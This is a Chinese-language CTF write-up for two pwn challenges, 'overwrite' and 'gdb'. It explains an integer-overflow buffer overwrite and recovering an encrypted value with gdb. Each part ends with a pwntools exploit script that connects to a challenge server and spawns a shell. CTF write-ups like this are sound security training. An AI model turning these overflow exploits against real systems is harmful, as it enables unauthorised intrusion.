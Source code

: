 ### overwrite
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020240929120552.png)
当`v4`中的字符转为整数后大于114514时即可获取`shell`,正常输入时最大输入48个数，既0x30长度，刚好无法覆盖v4
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020240929120941.png)
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020240929120950.png)
我们可以发现v2的定义为有符号的整数，在read时会将v2转为无符号整数，此处有整数溢出，故可以输入一个负数，在read时即可read超出0x30数量的字符
exp:
```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')    
local = True
if local:
    p = process('./overwrite')
else:
    p = remote('8.147.132.32', 41160)

p.recvuntil(b'readin: ')
p.sendline(b'-1')
p.recvuntil(b'say: ')

payload = b'a' * 0x30
payload += b'114515'

p.sendline(payload)
p.interactive()
```
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020240929121418.png)

### gdb
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020240929121602.png)
题意为将``v10``的数据按某种规则加密，我们输入的字符与加密后的字符一致即可获取`shell`
在`gdb`中可以看到加密前的数据为`0d000721`
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020240929121931.png)
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020240929122007.png)
数据加密后为`0x4557455355431d5d`,输入即可
exp:
```python
import struct
from pwn import *

encrypted = 0x4557455355431d5d

local = False
if local:
    p = process('./gdb1')
    pwnlib.gdb.attach(p, 'b printf')
else:
    p = remote('8.147.132.32', 12202)

p.recvuntil(b'encrypted data: ')

byte_array = struct.pack('>Q', encrypted)

p.sendline(byte_array[::-1])
p.interactive()
```
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020240929122151.png)
